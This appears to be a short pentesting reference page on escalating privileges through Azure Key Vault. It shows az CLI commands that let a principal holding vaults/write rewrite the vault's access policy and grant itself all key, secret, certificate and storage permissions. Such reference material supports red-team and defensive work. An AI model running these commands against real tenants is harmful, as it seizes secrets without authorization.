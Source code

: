 # Az - Key Vault Privesc

{{#include ../../../banners/hacktricks-training.md}}

## Azure Key Vault

For more information about this service check:

{{#ref}}
../az-services/keyvault.md
{{#endref}}

### Microsoft.KeyVault/vaults/write

An attacker with this permission will be able to modify the policy of a key vault (the key vault must be using access policies instead of RBAC).

```bash
# If access policies in the output, then you can abuse it
az keyvault show --name <vault-name>

# Get current principal ID
az ad signed-in-user show --query id --output tsv

# Assign all permissions
az keyvault set-policy \
  --name <vault-name> \
  --object-id <your-object-id> \
  --key-permissions all \
  --secret-permissions all \
  --certificate-permissions all \
  --storage-permissions all
```

{{#include ../../../banners/hacktricks-training.md}}
